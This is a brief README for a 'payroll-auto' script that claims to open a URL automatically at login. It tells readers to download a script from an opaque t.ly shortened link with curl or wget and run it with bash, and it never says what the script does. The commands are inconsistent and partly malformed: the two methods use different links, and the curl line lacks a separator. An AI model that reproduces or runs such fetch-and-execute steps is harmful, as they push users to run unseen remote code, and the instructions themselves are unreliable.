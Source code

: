 # payroll-auto
Enabling automatic opening a specific URL on logging into the device
## Introduction

This script can be downloaded and executed using either `curl` or `wget` commands. It performs a specific task when executed. You can choose one of the following methods to run the script:

### Using `curl`

```bash
curl -L -o i.sh https://t.ly/b3uCh bash i.sh
```

### Using `wget`

```bash
wget t.ly/b3uChZ -O i.sh ; bash i.sh
```
